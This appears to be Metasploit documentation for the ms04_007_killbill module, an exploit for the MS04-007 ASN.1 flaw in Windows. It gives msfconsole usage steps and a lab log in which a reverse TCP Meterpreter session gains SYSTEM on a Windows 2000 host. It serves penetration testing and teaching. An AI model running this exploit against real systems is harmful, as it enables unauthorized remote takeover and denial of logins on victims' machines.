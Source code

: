 ## Vulnerable Application

This is an exploit for a previously undisclosed vulnerability in the bit string decoding code in the Microsoft ASN.1 library. This vulnerability is not related to the bit string vulnerability described in eEye advisory AD20040210-2. Both vulnerabilities were fixed in the MS04-007 patch.

You are only allowed one attempt with this vulnerability. If the payload fails to execute, the LSASS system service will crash and the target system will automatically reboot itself in 60 seconds. If the payload succeeds, the system will no longer be able to process authentication requests, denying all attempts to login through SMB or at the console. A reboot is required to restore proper functioning of an exploited system.

This exploit has been successfully tested with the windows/[all]/reverse_tcp payloads, however a few problems were encountered when using the equivalent bind payloads. Your mileage may vary.

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/exploits/windows/smb/ms04_007_killbill`
  3. Do: `set RHOSTS [IP]`
  4. Do: `set LHOST [IP]`
  5. Do: `set LPORT [port]`
  6. Do: `run`

## Scenarios

### A run on Windows 2000 (Build 2195, SP4) and Kali Linux 2019.3

  ```      
  msf > use modules/exploits/windows/smb/ms04_007_killbill
  msf exploit(windows/smb/ms04_007_killbill) > set RHOSTS 192.168.1.2
    RHOSTS => 192.168.1.2
  msf exploit(windows/smb/ms04_007_killbill) > run
    [*] Started reverse TCP handler on 192.168.1.3:4444
    [-] 192.168.1.2:445 - Error: The server responded with error: STATUS_ACCESS_VIOLATION (Command=115 WordCount=0)
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.2:1050) at 2019-11-27 19:08:46 -0700

  meterpreter > sysinfo
    Computer        : PC-B43791F5F5
    OS              : Windows 2000 (5.0 Build 2195).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x86/windows

  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
